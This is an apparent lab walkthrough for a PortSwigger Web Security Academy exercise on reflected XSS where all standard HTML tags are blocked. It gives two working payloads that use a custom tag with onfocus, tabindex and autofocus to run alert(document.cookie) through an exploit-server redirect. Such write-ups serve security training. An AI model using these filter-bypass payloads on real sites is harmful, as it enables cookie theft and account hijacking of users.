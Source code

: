 # [Lab: Reflected XSS into HTML context with all tags blocked except custom ones](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-all-standard-tags-blocked)

## Lab

This lab blocks all HTML tags except custom ones.

To solve the lab, perform a cross-site scripting attack that injects a custom tag and automatically `alerts document.cookie`.

## Analysis

most tags are blocked like [lab 17](./17.%20Reflected%20XSS%20into%20HTML%20context%20with%20most%20tags%20and%20attributes%20blocked.md) except custom one.

## Solutions

1. exploit server:

    ```js
    <script>
    location = 'https://0a5c00a5037a68efc0d84a80009d001f.web-security-academy.net/?search=%3Cfoo+id%3Dtargetme+onfocus%3Dalert%28document.cookie%29+tabindex%3D1%3E%3C%2Ffoo%3E#targetme'
    </script>
    ```

    - `foo`: custom tag
    - `#`: fragment identifier
    - `tabindex=1`: which element has this attribute will trigger `onfocus` if fragment identifier point to `id`

2. exploit server:

    ```js
    <script>
    location = 'https://0a9a00b4044b2491c1a9ee3e008b00a4.web-security-academy.net/?search=%3Cfoo+autofocus+onfocus%3Dalert%28document.cookie%29+tabindex%3D1%3E%3C%2Ffoo%3E'
    </script>
    ```

    - `foo`: custom tag
    - `autofocus` triggers `onfocus`

lab solved
